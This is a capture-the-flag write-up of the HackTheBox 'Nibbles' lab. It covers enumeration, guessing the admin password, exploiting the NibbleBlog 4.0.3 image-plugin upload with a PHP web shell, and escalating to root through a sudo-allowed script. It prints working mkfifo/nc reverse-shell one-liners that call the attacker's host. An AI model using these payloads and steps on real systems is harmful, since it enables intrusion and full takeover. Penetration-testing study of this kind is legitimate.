




# Nibbles


## Author
**mrb3n**

## Task

> Find user.txt and root.txt file in the victim’s machine.

## Solution

First thing first, nmap:

`nmap -sV -sC -oA nibblesnmap 10.10.10.75`

Nothing interesting here, just ports `22, 80` opened. Googling the IP and glancing at the source code though we'll find a hint:


 `<!-- /nibbleblog/ directory. Nothing interesting here! -->`


 So I went to `<IP>/nibbleblog/` and a dashboard popped up but none of the links would redirect me to something useful. There was an interesting "Powered by" tool.
 
 

  Searching for "Nibbleblog exploit poc" we discover a vulnerable version to **file uploads**, the `4.0.3`. ([link](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)). This is the PoC:

1. Obtain Admin credentials (for example via Phishing via XSS which can be gained via CSRF, see advisory about CSRF in NibbleBlog 4.0.3)
2. Activate My image plugin by visiting http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php. This is the default name of images uploaded via the plugin.
 
I first had to make sure I was dealing with the right vulnerable version, so I started to enumerate the directories:


 ```bash
$ gobuster dir -u http://10.10.10.75/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/03 20:40:58 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
Progress: 4587 / 4615 (99.39%)
===============================================================
2023/08/03 20:41:21 Finished
===============================================================
```

Browsing to the `/README` dir we can see we're working with the right version:

`====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01`

As the PoC says we need to authenticate as a valid user to be able to access the upload page. We need to find some credentials

The login page `/admin.php` confirms the existence of an admin account:



 Knowing HackTheBox it is always useful to try simple combinations of credentials such as `admin:admin` , `admin:password` and the lucky guess `admin:nibbles` which allowed me to enter the **admin** portal of the website.



Now we just have to create a `.php` file that allows me to do a reverse shell once the upload is done:
 
 ```bash 
└─$ cat  shell.php          
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 9443 >/tmp/f"); ?>
 ```

Upload:

 

 
 And activate my listener with nc :

 ```bash
 └─$ nc -lvnp 9443 
listening on [any] 9443 ...
 ```

 Now we just have to call up the page where they store the uploads (as specified in the PoC):

 `curl  http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`

And we istantly obtain a shell. We are now inside the `nibbler` user: 


 ```bash
 └─$ nc -lvnp 9443 
listening on [any] 9443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 41984
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ 
```

TTY :

 `python -c 'import pty; pty.spawn("/bin/bash")'`

Moving to `/home/nibbler` will find the `user` flag:

```bash
$ ls
personal.zip
user.txt
$ cat user.txt
```
For priv esc we will exploit the vulnerable binary `monitor.sh` which we can detect with the command:

```bash
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Unzipping `personal.zip` we'll be able to access `monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

How to exploit it? we can append a rev shell to the end of the file which then, running it as root, will grant us a root shell!

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 8443 >/tmp/f' | tee -a monitor.sh`

Start listening on the port just indicated :

`nc -lvnp 8443`

And let's just run the modified script:

`sudo /home/nibbler/personal/stuff/monitor.sh`

and here is the root shell :

```bash
nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 50532
# id
uid=0(root) gid=0(root) groups=0(root)
# which python3
/usr/bin/python3
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Nibbles:/# cd root
cd root
root@Nibbles:~# ls
ls
root.txt
```